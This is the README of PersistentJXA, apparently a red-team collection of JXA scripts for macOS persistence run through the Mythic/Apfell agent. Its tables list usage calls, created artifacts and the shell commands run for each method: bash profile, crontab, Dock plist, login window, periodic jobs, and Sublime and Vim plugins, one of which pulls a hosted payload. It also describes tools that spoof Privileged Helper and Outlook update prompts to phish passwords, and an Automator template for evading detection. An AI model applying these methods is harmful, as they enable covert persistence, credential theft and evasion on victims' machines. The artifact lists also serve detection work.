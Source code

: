 # PersistentJXA
Collection of macOS persistence methods and miscellaneous tools in JXA  <br />
Related blog post: https://posts.specterops.io/persistent-jxa-66e1c3cd1cf5

# Usage
* In Mythic (Apfell Agent) :

```JavaScript
jsimport (Selected file)
jsimport_call <NameOfPersistenceScript>(ScriptArguments)
```


| Project | Description | Usage | Artifacts Created | Commandline Commands Executed
| :------ | :---------- | :----------- | :----------- | :----------- |
| **BashProfile** |  Modifies user's bash profile to execute script if the persistence process (current implementation assumes osascript) is not already running. If Catalina system then .zshenv is modified. <br /> Persistence executes on terminal open. | js_importcall BashProfile('osascript -l JavaScript -e ...') |  $HOME/.security/apple.sh <br />  $HOME/.security/update.sh <br />  $HOME/.bash_profile or  $HOME/.zshenv| sh $HOME/.security/apple.sh <br /> <br /> sh $HOME/.security/persist.sh|
| **CronJobPersistence** | Persistence using CronJobs. This script will create a hidden file (share.sh) in the current user's Public/Drop Box folder. Writes a cron job with a default interval of 15mins which executes the hidden script.  <br />  (Note: This command generates a user prompt for Catalina. If the user clicks “Don’t Allow” the command should fail with an “operation not permitted"). <br /> Persistence executes every 15 mins. | js_importcall CronJobPersistence('osascript -l JavaScript -e ...') | $HOME/Public/Drop\ Box/.share.sh <br /> crontab entry | sh -c echo "$(echo '15 * * * * cd $HOME/Public/Drop\\ Box/ && ./.share.sh' ; crontab -l)" \| crontab - <br /> <br />  sh -c (Persistence Action)|
| **DockPersist** | Modifies the apple dock plist for persistence. Requires an application to be present on target. Persistence executes upon user interaction. | js_importcall DockPersist("Safari", "com.apple.automator.Safari","yes") <br /> or <br /> js_importcall DockPersist("Google Chrome", "com.apple.automator.Google-Chrome","yes") | $HOME/Library/Preferences/com.apple.dock.plist <br /> /private/tmp/"randomname"  <br /> /private/tmp/temp9876|  /usr/bin/plutil -convert xml1 <plist> -o /private/tmp/temp9876 & <br /><br /> /usr/bin/plutil -convert binary1 <plist> -o /private/tmp/"randomname" & <br /> <br />/usr/bin/killall Dock |
| **FinderSyncPlugins** |  Persistence using Finder Sync Extensions. Requires and app on the target to be setup for abuse. It searches the app for the required files and registers them. <br /> See https://objective-see.com/blog/blog_0x11.html for how to setup. <br />  Persistence executes on login.  |  js_importcall FinderSyncPlugins('/Users/Shared/SyncTest.app') | N/A | pluginkit -a </some/path/persist.appex> & <br /> <br /> pluginkit -e use -i <FinderSynsBundleID> & |
| **LoginScript** | **Requires Root** Modifies login window plist for persistence. Persistence executes on login. | js_importcall LoginScript('osascript -l JavaScript -e ...') | /var/root/Library/Preferences/com.apple.loginwindow.plist <br />  <br />/Users/Shared/.security/test.sh |  sh -c (Persistence Action) |
| **PeriodicPersist** | **Requires Root** Create a daily job in /etc/periodic/daily. Persistence executes  daily. | js_importcall PeriodicPersist('osascript -l JavaScript -e ...') | /etc/periodic/daily/111.clean-hist | sh -c (Persistence Action)|
| **SublimeTextAppScriptPersistence** | Persistence using the Sublime Text application script. Appends the application script for Sublime to execute our command.. <br /> Persistence executes upon Sublime opening. <br /> See https://theevilbit.github.io/posts/macos_persisting_through-application_script_files/ for more details.|js_importcall SublimeTextAppScriptPersistence('osascript -l JavaScript -e ...') | modification to end of /Applications/Sublime\ Text.app/Contents/MacOS/sublime.py | sh -c (Persistence Action) |
| **SublimeTextPluginPersistence** | Persistence using Sublime Text plugins. Creates a plugin file that is executed upon the opening of Sublime. <br />  Persistence executes upon Sublime opening. | js_importcall SublimeTextPluginPersistence('/Users/Shared/inject.dylib')| $HOME/Library/Application\ Support/Sublime\ Text\  [2 or 3] /PrettyText/PrettyText.py  | N/A |
| **VimPluginPersistence** | Persistence using Vim plugins. Creates a plugin file that is executed  upon the opening of vim. <br />  Persistence executes upon vim opening. | js_importcall VimPluginPersistence('http://path/to/hosted/apfellpayload')  | $HOME/.vim/plugin/d.vim | sh -c (Persistence Action) |

# Misc Scripts / Tools

| Project | Description | Usage | Artifacts Created | Commandline Commands
| :------ | :---------- | :----------- | :----------- | :----------- |
| **DylibHijackScan** | JXA version of Patrick Wardle's tool that searches applications for dylib hijacking opportunities. May generate user pop up if looking into protected fodlers. Requires xcode installed on 10.14.1| js_importcall DylibHijackScan()  | N/A | "sh -c  lsof \| tr -s ' ' \| cut -d' ' -f9 \| sed '/^$/d' \| grep '^/'\| sort \| uniq" <br /> sh -c file "placeholder"  <br /> sh -c  otool -l "placeholder" <br /> |
| **PrivilegedHelperToolSpoof** | Tools searches the installed Privileged Helper Tools "/Library/PrivilegedHelperTools" and leverages legitimate icons and information in an attempt to gain user password credentials. The tool prompts again (with slightly different text) if the first password entry is blank. If no helper tool then default prompt for creds. | js_importcall PrivHelpToolSpoof() | N/A | sh -c launchctl plist __TEXT,__info_plist /Library/PrivilegedHelperTools/ <arrary> \| grep -A1 AuthorizedClients" |
| **OutlookUpdatePrompt** | Tool which prompts the user for and update in an attempt to gain password credentials. Attempts to bring a prompt using outlook icon if installed otherwise uses standard cog. Returns credentials from prompt entry to the user. | js_importcall OutlookUpdatePrompt() | N/A | N/A |
| **WorkflowTemplate** | A template for Automator to execute JXA. This is to evade simple detections on commandline osascript. After replacing the placeholder (JXA PAYLOAD HERE) with the desired js script, it can be executed by  /usr/bin/automator /path/to/file/Workflow.wflow. Requires the file to be on host but can be leveraged in combination with the above persistence methods | /usr/bin/automator /path/to/file/Workflow.wflow | /path/to/file/Workflow.wflow  | /usr/bin/automator /path/to/file/Workflow.wflow|
